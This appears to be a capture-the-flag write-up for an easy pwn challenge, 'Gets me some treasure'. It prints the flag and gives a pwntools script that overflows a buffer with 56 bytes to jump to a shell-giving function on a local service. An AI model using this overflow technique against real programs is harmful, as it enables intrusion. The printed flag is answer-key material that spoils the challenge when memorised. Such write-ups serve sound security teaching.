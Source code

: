 # Gets me some treasure

## Description 
Our treasure has been stolen by a rival gang, can you get past their guard to steal it back?

**Category: pwn** 

**Difficulty: easy**

**Author: Darkflame72** 

**Flag: AHOY{y0u_f0und_tr3asure}**


## Exploit
With the local copy of the executable we can run it in gdb to see what happens. We can use gdb to get the offset from the crash when we run a buffer overflow attack.

Using the offset we can call the function to get a shell by manualy calling the `pirates_control` function. An example of how this is work is shown below.

#TODO show the gdb bit on a linux machine

```py
from pwn import *

# Load information about the binary
elf = ELF("./treasure")

# Connect to the remote host, in this case it's just localhost:1337
p = remote("localhost", 1337)

# 56 'A's followed by the address of `pirates_control`
payload = b"A"*56 + p64(elf.sym["pirates_control"])

# Receive the text from the program, and send the payload
p.recv()
p.sendline(payload)

# Get an interactive shell
p.interactive()
```